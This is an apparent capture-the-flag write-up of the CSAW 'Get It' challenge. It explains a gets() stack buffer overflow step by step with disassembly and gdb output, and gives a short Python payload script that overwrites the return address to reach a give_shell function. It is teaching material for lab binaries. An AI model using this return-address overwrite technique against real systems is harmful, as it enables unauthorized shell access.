





# Get It

Description: Do you get it?

points: 50

host: pwn.chal.csaw.io

port: 9001



## Recon phase
We are given the file `get_it` and the first thing we should do is run `file` on it to see what we are  dealing with.
```
$file get_it
get_it: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=87529a0af36e617a1cc6b9f53001fdb88a9262a2, not stripped
```

cool,so we have a program we can run, lets give it permisisons to run, and see what it does:
```
$chmod +x get_it
$./get_it
Do you gets it??
```
and we can then input any one string and the prgram exits:


And just as a sanity check if we net cat to the servers address and port provided for us:

we see similar behavior. The server executable echos back what we type, and then stays alive until we hit enter.

Alright now that we have an idea of how the program functions, lets see if we can figure out what we should be doing.

There are a few ways we can go about this. We can open up the project in a disassembler such as IDA Pro or Binary Ninja, or we  can use objdump to view the assembly.

Lets start with objdump and go from there:
```
objdump -d get_it > dump.txt #note: we redirect the output into a text file for easy viewing.
```
That will output a lot of text but as we scroll through that file we some some interesting bits right in the middle:

```
00000000004005b6 <give_shell>:
  4005b6:	55                   	push   %rbp
  4005b7:	48 89 e5             	mov    %rsp,%rbp
  4005ba:	bf 84 06 40 00       	mov    $0x400684,%edi
  4005bf:	e8 bc fe ff ff       	callq  400480 <system@plt>
  4005c4:	90                   	nop
  4005c5:	5d                   	pop    %rbp
  4005c6:	c3                   	retq   

00000000004005c7 <main>:
  4005c7:	55                   	push   %rbp
  4005c8:	48 89 e5             	mov    %rsp,%rbp
  4005cb:	48 83 ec 30          	sub    $0x30,%rsp
  4005cf:	89 7d dc             	mov    %edi,-0x24(%rbp)
  4005d2:	48 89 75 d0          	mov    %rsi,-0x30(%rbp)
  4005d6:	bf 8e 06 40 00       	mov    $0x40068e,%edi
  4005db:	e8 90 fe ff ff       	callq  400470 <puts@plt>
  4005e0:	48 8d 45 e0          	lea    -0x20(%rbp),%rax
  4005e4:	48 89 c7             	mov    %rax,%rdi
  4005e7:	b8 00 00 00 00       	mov    $0x0,%eax
  4005ec:	e8 af fe ff ff       	callq  4004a0 <gets@plt>
  4005f1:	b8 00 00 00 00       	mov    $0x0,%eax
  4005f6:	c9                   	leaveq 
  4005f7:	c3                   	retq   
  4005f8:	0f 1f 84 00 00 00 00 	nopl   0x0(%rax,%rax,1)
  4005ff:	00 
```

looks like we have a main function `00000000004005c7 <main>:` , and a `00000000004005b6 <give_shell>` function, that probably will give us a shell if we can get to it somehow, and from there we could probably use that shell on the server the challenge is running to cat a file that contains a flag..

It also looks like the main function is pretty small. Looks like there is a `puts` call and a `gets` call. And what we know about `gets` is that it is easily exploitable for a buffer overflow. Although we probably could have guessed that this would be a gets buffer overflow from the name of the challenge, or the name of the executable, or the prompt we get when the program was ran...

To verify what the give_shell function is doing, we can analyze that `give_shell` assembly, the important bits there are these two lines:
```
  4005ba:	bf 84 06 40 00       	mov    $0x400684,%edi
  4005bf:	e8 bc fe ff ff       	callq  400480 <system@plt>
```
which basically calls the `System` function with the argument `0x400684`
and by checking what is in that address in gdb:
```
$gdb ./get_it
pwndbg> x/s 0x400684
0x400684:	"/bin/bash"
```
You can see we are calling `system("/bin/bash");`
Or you can just open the file in IDA Pro and get some nice C like functions auto made for you that tell you the same thing:

```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+10h] [rbp-20h]

  puts("Do you gets it??");
  gets(&v4);
  return 0;
}

int give_shell()
{
  return system("/bin/bash");
}
```

...but thats not as much fun.

But now that we know what the `give_shell` function does, we need to figure out how to get there, and to do that we need to understand the main function, and how `puts` and `gets` work.

### puts
I can go into a lot of detail about what puts does, and by that I mean other people that actually know how puts works on a very low level can go into a lot of detail about how puts works, but for the sake of this write up all you need to know about Puts is that it takes one argument and prints it, the argument being the value that edi (a register) is pointing to:
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave  
   0x00000000004005f7 <+48>:	ret    
End of assembler dump.
```

in case if you don't know `mov` works by my taking the value on the right, and saving it to the variable on the left, so in this case
`0x00000000004005d6 <+15>:	mov    edi,0x40068e` the register edi is pointing to whatever value is stored at `0x40068e`

And if we check gdb to see what that value is:
```
pwndbg> x/s 0x40068e
0x40068e:	"Do you gets it??"
```
we see that it is the prompt we get when we start. which makes sense.
So that covers puts, time for gets

### gets

From the man page:
`gets` - "Get a string from standard input (DEPRECATED)"

and also Never use this function

So yeah, makes sense this will be used in a ctf

further down the man page we get a description of how gets works:
```
gets()  reads  a  line from stdin into the buffer pointed to by s until
       either a terminating newline or EOF, which it replaces with a null byte
       ('\0').  No check for buffer overrun is performed (see BUGS below).
```

What that means is that gets accepts one argument, which will be the address in memeory it writes to, and then it will write to it everything it reads in, with no regard to the actual size of available buffer at the address in memory, so we can write past the buffer, overflowing it, to get to a new place in memory...hence the name buffer overflow.

So we have a decent understanding of what we want to: overflow the gets buffer and some how get that to run the get_shell command.

We Just need to know how to do that. and that brings us to a very important concept, the Stack Frame.

##Stack Frame
There are different types of memory segments, i don't want to go into the details of them here (Because I don't actually know ther details) but feel free to read about them [here](https://en.wikipedia.org/wiki/Data_segment)

But we just want to focus on the  Stack, and stack frames.

The stack is composed of stack frames that get pushed onto the top of a stack when ever a function is called. A stack frame is how a function keeps track of its state without corrupting other functions.

A stack frames holds information about a functions local varibles, the location in memory that the function must return to, and the location on the stack of the frame of its parent (the function that called the current function)

It may help to visualize what is going on:



You can ignore the arguments for now, the main things to focus on is the current frame, the %ebp (or for a 64 bit program the %rbp) which  is the "Base Pointer" and points to the bottom of the current stack frame., the %esp (or %rsp on a 64 bit program) points to the top of the current stack frame., and then the return address, is where our program will jump to when the function finsihes.

But why am I telling you this? Lets take another look at our gets call in the main function:

```
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
```
`lea` is the Load Effective address so that first line is getting some address (rbp-0x20) and loading it ino a varible, RAX.
* note that 0x20 == 32 in base 10
so from that we can see that our stack frame looks similar to this:
```
RBP - 0x20 (32) : some buffer of size 32
RBP - pointer to old stack frame (size of 8)
RBP + 8 return address
```

to verify that is correct we can take a look in gdb. We will set a break point in main just before we leave the function to take a look at the frame:
```
pwndbg> disassemble main
Dump of assembler code for function main:
   0x00000000004005c7 <+0>:	push   rbp
   0x00000000004005c8 <+1>:	mov    rbp,rsp
   0x00000000004005cb <+4>:	sub    rsp,0x30
   0x00000000004005cf <+8>:	mov    DWORD PTR [rbp-0x24],edi
   0x00000000004005d2 <+11>:	mov    QWORD PTR [rbp-0x30],rsi
   0x00000000004005d6 <+15>:	mov    edi,0x40068e
   0x00000000004005db <+20>:	call   0x400470 <puts@plt>
   0x00000000004005e0 <+25>:	lea    rax,[rbp-0x20]
   0x00000000004005e4 <+29>:	mov    rdi,rax
   0x00000000004005e7 <+32>:	mov    eax,0x0
   0x00000000004005ec <+37>:	call   0x4004a0 <gets@plt>
   0x00000000004005f1 <+42>:	mov    eax,0x0
   0x00000000004005f6 <+47>:	leave
   0x00000000004005f7 <+48>:	ret
End of assembler dump.
pwndbg> break *0x00000000004005f6
Breakpoint 1 at 0x4005f6
pwndbg> run
```

enter 32 'A's when prompted and then on the break run this command:
```
pwndbg> x/6xg $rbp - 0x20
0x7fffffffdc40:	0x4141414141414141	0x4141414141414141
0x7fffffffdc50:	0x4141414141414141	0x4141414141414141
0x7fffffffdc60:	0x0000000000400600	0x00007ffff7a05b97
``` 
And you will see our 32 A's represented in hex (0x41) followed by our rbp and then a return address.

So we now know how many bytes we have to write to get to that return address so we can over write it (32+8) with the address of our give_shell function 

But what do we need to put in its place? simple, the starting address of the give_shell function.
which we have from our disassembly from objdump `00000000004005b6`
* note you can also get this address from gdb with `p give_shell`
# Exploit
so we need our string to look like 40 charachters of anything, followed by that address, but we need to make sure the address is inputted correctly, which means we need to insert it as hex, and in little endian format.

So instead of `00000000004005b6` we have `\xb6\x05\x40\x00\x00\x00\x00\x00`

And lets make a little [script](pwn1.py) to generate this payload so we don't have to keep typing it out:

```
#!\usr\bin\python
#pwn1.py
## Total payload length
payload_length = 40
## Controlled memory address to return to in Little Endian format (two addresses next to each other)
return_address = '\xb6\x05\x40\x00\x00\x00\x00\x00'
## Building the padding between buffer overflow start and return address
padding = 'B' * payload_length
myPayload = padding + return_address
print myPayload
```
simple enough and then we can just write that to a file
with: `python pwn1.py > fuzzing`
Then verify we wrote our string correctly: `cat fuzzing`
and then lets send our payload to the service and see what happens:



*note the `-` at the end of my cat command stands for standard input, and that keeps my terminal open for reading, so that i can send additonal commands to the program after the payload gets sent.

Success: `flag is flag{y0u_deF_get_itls}`

*Also note that originally i messed up and made this a lot harder for myself by not accounting for the 8 bytes of RBP and initially was sending a 32 byte payload plus an address which was causing all sorts of problems. you can see how i dealt with that in [my original script](Payloadgenerator.py)
